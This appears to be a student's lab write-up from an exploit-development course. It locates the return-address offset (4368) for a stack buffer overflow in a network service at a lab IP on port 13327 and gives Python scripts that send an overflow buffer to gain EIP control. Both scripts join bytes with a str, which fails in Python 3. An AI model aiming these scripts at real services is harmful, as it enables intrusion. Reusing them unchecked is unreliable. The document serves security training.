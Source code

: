 ### 12.3.1.1 Exercises
#### 1. Determine the correct buffer offset required to overwrite the return address on the stack.

- Generated 4,379 byte unique pattern

   ```bash
   msf-pattern_create -l 4379
   ```
   
- Inserted into PoC

   ```python
   #!/usr/bin/python3
   import socket
   host = "192.168.216.44"
   pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab<snipped>  j1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Flo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp"
   buffer = b"\x11(setup sound " + pattern + "\x90\x00#"
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   print ("[*]Sending evil buffer...")
   s.connect((host, 13327))
   print (s.recv(1024))
   s.send(buffer)
   s.close()
   print ("[*]Payload Sent !")
   ```

- EIP has address 46367046.  Looked this up in MS:
   `msf-pattern_offset -l 4379 -q 46367046`

- Offset is 4368

#### 2. Update your stand-alone script to ensure your offset is correct.

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
crash = b"\x41" * 4368
eip = b"\x42" * 4
ending = b"\x43" * 7
buffer = b"\x11(setup sound " + crash + eip + ending +"\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

EIP overwritten by B's

![image-20200709175832975](.12.3.1.1.assets/image-20200709175832975.png)